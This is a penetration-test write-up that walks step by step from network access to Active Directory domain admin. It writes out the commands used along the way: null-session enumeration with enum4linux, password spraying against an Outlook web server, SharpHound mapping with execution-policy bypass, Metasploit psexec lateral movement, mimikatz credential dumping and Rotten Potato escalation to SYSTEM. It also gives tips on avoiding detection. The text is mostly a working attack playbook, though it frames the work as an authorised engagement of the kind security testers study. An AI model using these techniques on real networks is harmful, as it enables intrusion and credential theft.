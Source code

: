 # Domain Admin in 30 Minutes

This is an experience from a real internal domain pentest. Customer name has obviously been removed.

Goal here is going from network access only to domain admin \(DA\). This process takes about 30 min.

**A few key points:**

* This particular customer had removed regular users as local admins from workstations, so using responding and relaying didn't give us much here. This is after all a pretty old attack vector, although it has a very good success rate when regular users are local admins on their workstations.
* Certain amout of luck involved, but with such a huge domain and so many admins there will always be a way to DA
* Policy did not allow domain admins to remote into workstations.
* There was lockout on both admin and domain admin users after five tries.
* Important to not lock anybody out!
* Use HTTPS meterpreter shells to avoid getting busted
* Don't drop exe files on boxes, and if do clean up afterwards

### Null session on domain controller \(DC\)

Did a fast scan with Nessus, could have done other things to find a domain controller like nmap or other windows commands.

Tried to check it the DC supported null sessions using the following command:

```
enum4linux -a <ip address>
```

Domain controller gives us everything we need.

A list of every machine, every user, including admins and domain admins.

Bonus: every group membership and the password policy.

PW policy reveals there is no lockout on regular users and no requirement for complexity.

**It’s a party!**

### Password spraying

Every regular user has three letter usernames. Let’s make a list of all those. We don’t want to block out admin users \(they usually have lockout\). About 500 usernames on this test.

No complexity requirements = shit passwords. This test was performed during christmas 2017 so we make a list of relevant passwords and check it twice:

* Winter2017
* winter2017
* christmas2017
* Christmas2017

Now we need a place to try the passwords. Trying to authenticate with a lot of failures on SMB may be detected and this stuff is way easier to set up in Burp anyway. We load up a list of usernames and passwords with Burp Intruder and point it to the external OWA e-mail server that really wasn't that hard to guess.

`www.mail.customer.com`

Now we just run it for all 500 usernames with those four passwords for all of them. Spray and pray!

Takes about 5 seconds to filter for 200 OK in Burp and see where the pw is accepted. It's also possible to sort by size of the response to easily find the positives. Got a few regular users login credentials now. We can get busy! Remember there was no lockout on passwords, so we could have tried until somebody came running through the door of the tiny meeting room we were sitting in. Food for thought .... So we get the credentials of a user called `ank`_._

### Make a map of the domain with regular user privs

Now remember this user is not an admin but the way Active Directory works allows us to map out the whole domain.

`runas /netonly /user:kunde.no \ank powershell`

Type in password `winter2017`when prompted. This query gets executed at the domain controller, and if successfull we can basically execute queries that are forwarded and executed on the DC. This is not remote code execution or any sort of vuln, just inherent functionality. We now want to make a map with Bloodhound, so if you haven't get that set up using the guide from this book. Then go ahead and load up SharpHound.ps1 and execute it. Depending on the size of the domain and activity, this should take some time. On busy daytime in a corporate office with a few thousand workstations and servers this took 30 minutes to complete.

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```

Wait 20 minutes for a full map of the entire domain \(3000 hosts\). Now load it all up in bloodhound using the import feature, just put the entire ZIP file in there. Now BloodHound has a few default queries which are quite useful. Since we want domain admin we wanna see if its an easy way.

`Find shortest path to domain admin`

Now we notice a few things that we kind of knew already, but now realized. The number of domain admins is too damn high! Also, by cross referencing the output from the null session enumeration on the DC we see domain admin usernames that are highly susceptible as service accounts. A thing we didn't try before way later in the engagement was logging in as domain admins with the same username as password. Believe it or not, this actually worked for one of the domain admins, which is plain ridiculous. We could have reduced our effort getting DA from 30 minutes to 30 seconds, but of course we didn't wanna go wild password spraying domain admins as this would get us detected really fast and we could potentially block out domain admins preventing them from doing their jobs. That's not good!

### Pivoting around to find a box that has domain admin

So now that we have a proper map we need to try to get closer to a box with domain admin so we can capture that users privileges or credentials somehow. Because this customer had removed all kinds of local admin from workstation's the regular users we had access to basically has no good privs, except as Bloodhound so elegantly reveals one single box. WTF? Apparently in their rigoorous removal of local admins from workstations they had forgot this one WS which is still in use.  So before we can get to a box with domain admin we need an intermediary step we jump on to a workstation the user has access to that also has an admin logged on with psexec \(SMB share login\) and RDP \(remote desktop\). Because this box was accessible by every user in the domain it was just jumping on it. By some stroke of luck an admin user is also logged onto  this box. We use in Metasploit with the user's creds on that workstation:

```
exploit/windows/smb/psexec_psh
```

We now have shell as local admin on that workstation, and hence we can run mimikatz. We load and execute mimikatz straight into memory from metasploit:

```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
```

We now dump the admin user's password and hash in plaintext \(easily identifiable as all admin-users in this domain has "admin" in the username\). We check the privileges of this admin user and find a box with multiple domain admins on that this user also has access to. On to the final step!

### Privilege escalation from admin to domain admin

We shell in with `psexec_psh` to the box that has domain admins. We are not local admin on this box, so we can't do mimikatz. Luckily, there are other ways to get privileges. Rotten Potato is a privilege escalation technique that works well for this kind of scenario. Using this technique, we can elevate our privilege on a Windows workstation from the lowest levels to “NT AUTHORITY\SYSTEM” – the highest level of privilege available on a Windows machine. We do the following in our Meterpreter:

```
getuid
getprivs
upload /root/just_dce_64.exe c:\\temp\\rot.exe
load incognito
list_tokens -u
execute -Hc -f ./rot.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
getprivs
```

We are now SYSTEM on this box and can run mimikatz do dump the plaintext creds of whatever domain admin is logged on the box. Alternatively, we can use rotten potato to impersonate a domain admin. Just replace the username of the impersonate\_token command from above with the username you want to impersonate. Wild!

Congrats you are now domain admin!

